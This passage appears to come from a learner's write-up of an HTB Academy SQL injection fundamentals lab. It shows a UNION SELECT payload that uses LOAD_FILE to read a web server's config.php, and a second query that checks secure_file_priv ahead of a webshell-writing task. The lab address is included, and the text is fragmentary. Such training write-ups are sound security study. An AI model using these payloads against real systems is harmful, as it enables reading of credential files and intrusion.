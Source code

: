 cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-40.png)

### Writing Files

**Find the flag by using a webshell.**

94.237.54.116:55595

cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-41.png)
